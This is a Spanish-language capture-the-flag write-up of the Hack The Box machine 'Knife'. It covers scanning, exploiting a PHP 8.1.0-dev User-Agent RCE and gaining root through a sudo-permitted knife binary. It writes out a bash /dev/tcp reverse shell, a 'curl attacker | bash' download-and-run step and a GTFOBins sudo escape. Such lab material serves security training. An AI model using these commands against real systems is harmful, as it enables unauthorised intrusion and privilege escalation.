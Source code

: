 ```yaml
---
title: "Knife"
description: "Máquina Knife de Hackthebox"
date: 2024-07-07 22:15:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Hackthebox
  - Linux
tags:
  - PHP 8.1.0-dev
  - Abusing Sudoers
image:
  path: /assets/img/Knife/Knife.png
---
```


## Skills

- PHP 8.1.0-dev - 'User-Agent' Remote Code Execution [RCE]
- Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
  
## Certificaciones

- eJPT
  
## Descripción

`Knife` es una máquina `easy linux` donde estaremos vulnerando la máquina a través de un `rce` (remote code execution), el cual obtenemos al `explotar` el `php 8.1.0-dev`. Mediante el `rce` nos enviamos una `reverse shell` a nuestro equipo y posteriormente `escalamos privilegios` abusando del `sudoers`

---

## Reconocimiento

Se comprueba que la `máquina` está `activa` y se determina su `sistema operativo`, el `ttl` de las máquinas `linux` suele ser `64`, en este caso hay un nodo intermediario que hace que el ttl disminuya en una unidad

```
# ping 10.129.7.60 
PING 10.129.7.60 (10.129.7.60) 56(84) bytes of data.
64 bytes from 10.129.7.60: icmp_seq=1 ttl=63 time=155 ms
64 bytes from 10.129.7.60: icmp_seq=2 ttl=63 time=1542 ms
64 bytes from 10.129.7.60: icmp_seq=3 ttl=63 time=594 ms
^C
--- 10.129.7.60 ping statistics ---
4 packets transmitted, 3 received, 25% packet loss, time 3011ms
rtt min/avg/max/mdev = 155.024/763.527/1541.628/578.642 ms, pipe 2
```

### Nmap

Se va a realizar un escaneo de todos los `puertos` abiertos en el protocolo `TCP` a través de `nmap`

```
# sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -v 10.129.7.60 -oG openPorts
[sudo] password for justice-reaper: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 10:06 CEST
Initiating SYN Stealth Scan at 10:06
Scanning 10.129.7.60 [65535 ports]
Discovered open port 22/tcp on 10.129.7.60
Discovered open port 80/tcp on 10.129.7.60
Completed SYN Stealth Scan at 10:07, 23.98s elapsed (65535 total ports)
Nmap scan report for 10.129.7.60
Host is up (0.092s latency).
Not shown: 45604 closed tcp ports (reset), 19929 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 24.06 seconds
           Raw packets sent: 118385 (5.209MB) | Rcvd: 110593 (4.424MB)
```

Se procede a realizar un análisis de `detección` de `servicios` y la `identificación` de `versiones` utilizando los puertos abiertos encontrados

```
# nmap -sCV -p 22,80 10.129.7.60 -Pn -oN services 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 10:09 CEST
Nmap scan report for 10.129.7.60
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```

### Web Enumeration

Cuando `accedemos` al servicio `web` visualizamos lo siguiente

![](/assets/img/Knife/image_1.png)

`Fuzzeamos` en busca de `rutas` y no encontramos `nada`, con wappalyzer vemos las tecnologías que se están usando en la página web

![](/assets/img/Knife/image_2.png)

Usamos `whatweb` para obtener más `información` y al parece la `versión` de `php` es `8.1.0-dev`

```
# whatweb 10.129.234.175
http://10.129.234.175 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.234.175], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Debido a que no hemos encontrado más puertos abiertos ni por TCP ni por UDP, tampoco hay virtual hosting y fuzzeando en busca de nuevas rutas no hemos encontrado. Vamos a buscar vulnerabilidades en google para la versión 8.1.0 de php, para esto hacemos la búsqueda la siguiente búsqueda > `php 8.1.0 exploit`

![](/assets/img/Knife/image_3.png)

## Web Exploitation

Al parecer es `vulnerable` al `exploit` encontrado y obtenemos `acceso` a la máquina víctima

```
# python3 exploit.py 
/home/justice-reaper/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
Enter the full host url:
http://10.129.234.175

Interactive shell is opened on http://10.129.234.175 
Can't acces tty; job crontol turned off.
$ whoami
james
```

## Intrusión

Procedemos a mandarnos una `reverse shell`, lo primero es crearnos en nuestra máquina una archivo llamado `shell` en su interior haya este `payload`

```
bash -i >& /dev/tcp/10.10.16.15/443 0>&1
```

En el `mismo directorio` donde nos hemos creado el archivo `shell`, no ponemos en `escucha` con `python` por el `puerto 80`

```
# python -m http.server 80
```

Nos ponemos en `escucha` también por el `puerto 443` para recibir la `shell`

```
# nc -nlvp 443
```

Desde la máquina víctima nos mandamos un `curl` a nuestra máquina y el output lo pipeamos con `bash`

```
$ curl http://10.10.16.15|bash
```

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.95.96] 53600
sh: 0: can't access tty; job control turned off
$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya tenemos un `consola` completamente `interactiva`

```
james@knife:/opt$ whoami
james
```

## Privilege Escalation

Una vez dentro de la máquina víctima vemos si podemos `ejecutar` algún `binario` con `sudo`

```
james@knife:/opt$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Buscando en [https://gtfobins.github.io/gtfobins/knife/](https://gtfobins.github.io/gtfobins/knife/) nos damos cuenta de que mediante este binario podemos `escalar privilegios` y convertirnos en usuario `root`

```
james@knife:/opt$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# 
```
